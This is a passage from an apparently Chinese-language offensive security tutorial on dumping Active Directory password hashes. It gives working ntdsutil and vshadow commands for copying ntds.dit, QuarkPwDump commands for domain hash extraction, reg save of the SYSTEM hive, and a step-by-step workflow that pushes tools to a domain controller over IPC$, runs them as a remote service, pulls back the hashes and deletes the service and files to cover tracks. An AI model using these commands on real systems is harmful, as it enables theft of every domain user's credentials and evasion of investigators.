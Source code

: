 ![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjKAfBbNKVrn1dX9N1O6ujxdjzib8E5GlcXV3zVb4nI1wgkP8dAGCxFBQ/640?wx_fmt=png)

> 做完后 unmount 然后需要再 delet 一下

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjbrL29IEtXCxv6AcXqJeuqRoV9H1cqwAIriaqkD31QVfujzroYXc0btQ/640?wx_fmt=png)

> b. 非交互
> 
> ```
> ntdsutil snapshot "activate instance ntds" create quit quit
> ntdsutil snapshot "mount {GUID}" quit quit
> copy MOUNT\_POINT\\windows\\ntds\\ntds.dit c:\\temp\\ntds.dit
> ntdsutil snapshot "unmount {GUID}" "delete {GUID}" quit quit
> ```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjkmCBRCNgy3dtXZU3ptotS1dHyZLnD3DIyib5orlGUrIZLa7gVpBa5zw/640?wx_fmt=png)

2.  vshadow   微软的卷影拷贝工具
    

> ```
> vshadow.exe -exec=%ComSpec% C:
> ```
> 
> 其中 %ComSpec% 是 cmd 的绝对路径, 它在建立卷影后会启动一个程序, 只有这个程序才能卷影进行操作, 其他不能, 比如这里就是用 cmd.exe 来的 最后 exit 一下

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjCoZ7AD6zzWicAW5icAmmibmme7cv864vfawBxqBo5R7MGEhWejPib4a4Xg/640?wx_fmt=png)

2、QuarkPwDump 分析 https://github.com/quarkslab/quarkspwdump  

1.  在线提取
    
    ```
    QuarkPwDump.exe --dump-hash-domain --with-history --ntds-file c:\\ntds.dit
    ```
    
2.  离线提取 需要两个文件 ntds.dit 和 system.hiv 其中 system.hiv 可通过`reg save hklm\system system.hiv`获取
    

```
QuarkPwDump.exe --dump-hash-domain --with-history --ntds-file c:\\ntds.dit --system-file c:\\system.hiv
```

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjk8fWn3p0ltAZtZW5EvMurFjS4NvY6YxKz3MfG1tLUOjCrhWic7g5zSw/640?wx_fmt=png)

3、实战中 hash 导出流程  

> 1\. 建立 ipc$ 连接`net use \\DC1\c$ password /user:username`2\. 复制文件到 DC`copy .\* \\DC1\windows\tasks`3.sc 建立远程服务启动程序`sc \\DC1 create backupntds binPath= "cmd /c start c:\windows\tasks\shadowcopy.bat" type= share start= auto error= ignore DisplayName= BackupNTDS`4\. 启动服务`sc \\DC1 start backupntds`5\. 删除服务`sc \\DC1 delete backupntds`6\. 讲 hash 转移到本地`move \\DC1\c$\windows\tasks\hash.txt .`7\. 删除记录文件`del \\DC1\c$\windows\tasks\ntds.dit \\DC1\c$\windows\tasks\QuarksPwDump.exe \\DC1\c$\windows\tasks\shadowcopy.bat \\DC1\c$\windows\tasks\vshadow.exe`

![](https://mmbiz.qpic.cn/mmbiz_png/La0UYqKZf7cqrIJ0PPhficCeWhXsuymNjPFbAa8MQlX6IcoicicPgpuwAvCILxBucWVRHUAwnxcW1bePXy3wvvISw/640?wx_fmt=png)
